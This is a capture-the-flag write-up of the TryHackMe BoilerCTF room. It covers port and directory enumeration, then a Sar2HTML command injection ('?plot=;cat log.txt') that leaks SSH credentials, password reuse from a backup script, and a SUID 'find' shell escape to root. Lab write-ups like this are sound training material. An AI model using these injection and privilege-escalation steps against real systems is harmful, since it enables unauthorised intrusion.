 # 29 - BoilerCTF

Room Link --> [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.62.87 -sV -Pn -n -p- -T5 -vv

PORT      STATE SERVICE          REASON
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http             syn-ack ttl 63
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
{% endcode %}

#### FTP enumeration

```
ftp 10.10.62.87
ftp> ls -al
229 Entering Extended Passive Mode (|||44125|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt

┌──(dking㉿dking)-[~/Downloads]
└─$ cat .info.txt           
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

#### Port 10000 (webmin)

Seems webmin is running on https --> [https://10.10.62.87:10000/](https://10.10.62.87:10000/)

Checking google and Webmin version 1.930 is not vulnerable, so we can't exploit that.

Enumerating with gobuster and discovered a CMS.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87 -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,db,ini -t 500 2>/dev/null

# outputs.
/joomla               (Status: 301) [Size: 311] [--> http://10.10.62.87/joomla/]
/manual               (Status: 301) [Size: 311] [--> http://10.10.62.87/manual/]
/robots.txt           (Status: 200) [Size: 257]
```
{% endcode %}

Navigating to --> [http://10.10.62.87/joomla/](http://10.10.62.87/joomla/) and started looking around.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

More enumeration with gobuster.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87/joomla/ -w /usr/share/dirb/wordlists/common.txt -t 500 2>/dev/null

# outputs
/_test                
/~www                 
/_archive             
/bin                  
/build                
/cache                
/components           
/images               
/includes             
/index.php            
/installation         
/language             
/layouts              
/libraries            
/media                
/modules              
/plugins              
/templates            
/tests                
/tmp                  
/_database            
/_files               
/administrator
```
{% endcode %}

**http://10.10.140.202/joomla/\_test/**

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-MrxP7-ZrTNQ/YJwO4lHCbhI/AAAAAAAAv-w/r1vH82TtD4Idhc4F7JmOF1rEK0jnRV_9QCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Searching for exploit on the Web, there seemed to be a [**Remote Code Execution vulnerability**](https://www.exploit-db.com/exploits/47204) in the Sar2HTML.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-nTPVdm9XrU0/YJwPBwVm4aI/AAAAAAAAv-0/Gq3EaR5ULPEgwDlSyzljRs-3rKh7i6YZgCLcBGAsYHQ/s16000/9.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Reading the [exploit](https://www.exploit-db.com/exploits/47204), it seemed that the plot parameter is injectable and when the command is entered, the output of the command can be viewed in the Select Host Drop Down option.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-BvbO2WsVUes/YJwPGq_khzI/AAAAAAAAv-4/n5l9RyNXEQcOjPTtUmS5h6HuM6R34UbhwCLcBGAsYHQ/s16000/10.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

#### **Exploitation**

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's wordking, we can list al files. The file is "log.txt".

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> http://10.10.72.60/joomla/\_test/index.php?plot=;cat log.txt

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*QFXboajcwZk7Q-tM4kXksA.png" alt="" height="367" width="700"><figcaption></figcaption></figure>

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@\$$**

### Initial Access

Login to ssh with the credentials.

```
ssh basterd@10.10.62.87
```

And we got in.

The other user's password was stored in "backup.sh" file.

```
USER=stoner
#superduperp@$$no1knows
```

### Priv Esc to Stoner

```bash
su stoner # enter the password.

find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null

# and we saw the "/usr/bin/find" binary.
/usr/bin/find . -exec /bin/sh -p \; -quit

# and got root.
```

